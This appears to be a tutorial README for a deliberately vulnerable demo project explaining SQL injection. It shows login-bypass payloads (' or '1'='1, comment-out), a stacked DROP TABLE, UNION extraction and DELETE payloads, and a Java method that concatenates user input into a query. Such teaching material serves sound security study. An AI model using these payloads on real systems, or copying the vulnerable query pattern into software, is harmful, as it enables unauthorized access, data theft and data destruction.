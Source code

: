 ##SQL injection for non-parameterized query

### Checking possible SQLi in API 

Checking for SQL Injections with a single quote ‘ is quite a trustworthy way to check if this attack is possible or not.

If the single quote does not return any inappropriate results, then we can try to enter double quotes and check the results.

### Login Scenario SQLi Cases

    SELECT * FROM Users WHERE User_Name = ‘" + strUserName + "‘ AND Password = ‘" + strPassword + “’;”

For simple payload username as 'John' and password as 'Smith'
query build would be as 
   
    SELECT * FROM Users WHERE User_Name = 'John' AND Password = 'Smith’;
    
For username if payload is  =>   John '-- , query would be  
    
    SELECT * FROM Users WHERE User_Name = 'John'-- AND Password = 'Smith’;

For username payload =>  John ' or 'x' = 'x     and for password as  =>   Smith ' or 'x'='x 

    SELECT * FROM Users WHERE User_Name = 'John' or 'x'='x' AND Password = 'Smith’ or ‘x’=’x’;

For username payload =>  John ' or '1'='1     and for password as  =>   Smith ' or '1'='1
    
    SELECT * FROM Users WHERE User_Name = 'John' or '1'='1' AND Password = 'Smith’ or ‘1’=’1’;

Deleting data from other table, payload could be 

    SELECT * FROM Users WHERE User_Name = ‘John’; DROP table users_details;’ –‘ AND Password = 'Smith';


### For Employee Api SQLi Scenario

API Path: localhost:8080/api/employee/byPost

Query Method and String:

    public List<Map<String, Object>> listEmployeeByPost(String post) {
        String query = "SELECT id, name, post, salary FROM employee WHERE post = '" + post + "'" ;
        log.info("QUERY : " + query);
        return jdbcTemplate.queryForList(query, new HashMap<>());
    }

Simple JSON Payload:

    {
        "post" : "Manager"
    }

Simple UNION payload 

    {
        "post" : "Manager' union select '1', '2', '3', '4"
    }

Retrieving all data from other tables

    {
        "post" : "Manager' UNION ALL SELECT id as id, name as name, price as post, created_by as salary FROM product WHERE '1' = '1"
    }

Deleting Data from table

    {
        "post" : "Manager'; DELETE FROM product WHERE '1' = '1"
    }


